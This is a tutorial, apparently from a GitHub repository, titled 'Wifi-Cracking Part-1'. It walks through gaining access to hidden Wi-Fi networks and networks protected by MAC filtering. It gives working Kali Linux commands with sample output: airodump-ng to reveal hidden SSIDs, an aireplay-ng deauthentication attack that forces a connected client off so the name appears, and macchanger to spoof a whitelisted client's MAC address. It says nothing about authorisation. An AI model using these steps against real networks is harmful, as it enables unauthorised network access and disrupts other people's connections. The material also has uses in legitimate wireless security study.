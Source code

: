 # Wifi-Cracking (Part-1)   

#### [ HIDDEN NETWORKS / MAC FILTERING]
---


In this writeup we are going to learn how to gain access on networks and bypass their security features , we will be covering  following types of networks:

- Target Hidden networks
- Bypass MAC filtering
- Methods to gain access on
  - Captive portals
  - WEP, WPA, WPA2
  - Fake Access Points
  - WPA Enterprise

these are main topics but there are many subtopics in each main topic which we will discuss in depth so just follow us.

Let's begin with **HIDDEN NETWORKS**, a hidden network is one that does not broadcast its name or **ESSID** and problem with this types of networks are we can't connect even they are open networks, the solution to this problem is **airodump-ng** and **deauth auth**

**NOTE : Use your wireless adapter in monitor mode and use your  wireless adapter name in commands  whatever it is in our case we use wlan0**

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

```
simply to identify Hidden networks see **ESSID* field and there will be no name or <length : 0>
in the place so copy its MAC Address and run airodump-ng

```
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```
(Don't quit this operation)

Sometimes just running the airodump-ng  will give you the name of the  network or just use **deauth attack** to anyone of the client which is connected to that network

```bash
root@kali:~# aireplay-ng --deauth 4 -a 63:16:F0:EC:76:F3 -c 33:90:E9:50:A8:F4 wlan0

```
Hit enter after some packet the name of network will be available

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```

Now you get the name we want to connect with this network for this :

**NOTE : You cannot connect any network in monitor mode so reset your wireless adapter to managed mode because monitor mode is only used to capture the packets**

there are many options to do this either use **airmon-ng stop wlan0mon** or **iwconfig wlan0 mode managed** use any of the command as your wish or just simply disconnect your wireless apadter and connect it once again it will do your job and run .

```bash
root@kali:~# service network-manager start

```

![](img/access/g1.jpeg)

Now,
- Go to your wifi options select the options *connect to hidden wifi network*
- select security option and write the name you got.
- It will connect it successfully to a hidden network.

---
##### MAC FILTERING

**NOTE: wireless card in monitor mode**

Another chance you will be not able to connect an open network even if you know it key because that router must be using **mac filtering**, since MAC Address is unique to each network device, Routers can use **mac filtering** to allow/deny devices from connecting based on mac address, it works on :

- Using a blacklist- allow all MACs to connect except the ones in the list
- Using a whitelist- deny all MACs from connecting except ones in the list.

At first lets see how to bypass blacklist method

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-06 10:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN               XOXO

```

Run airodump-ng on that specific network to see clients connected to it

```bash
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```
---

```bash
CH  1 ][ Elapsed: 45 sec ][ 2020-05-06 10:37                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3   80:E9:59:77:4F:99  -33   0 -21      0       9

```
Output suggest that the client with this 80:E9:59:77:4F:99 address is in whitelist thats why it connected to it change your MAC address of wireless card to same as connected client

**NOTE: For connecting network change mode to managed**
(disconnect the card and again connect to machine) and use **macchanger** tool change MAC address

```bash
root@kali:~# ifconfig wlan0 down
root@kali:~# macchanger -m 80:E9:59:77:4F:99 wlan0

```
this command will to do the job see if you get any error or you want to change MAC Address in different way you can do it
Now if you go to wifi-settings and you will be able to connect to it because now you are in the whitelist.


- Link to [Part-2](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP2.md)
- Link to [Part-3](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP3.md)
- Link to [Part-4](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP4.md)


**AUTHOR** - [Error](https://github.com/Error-200)
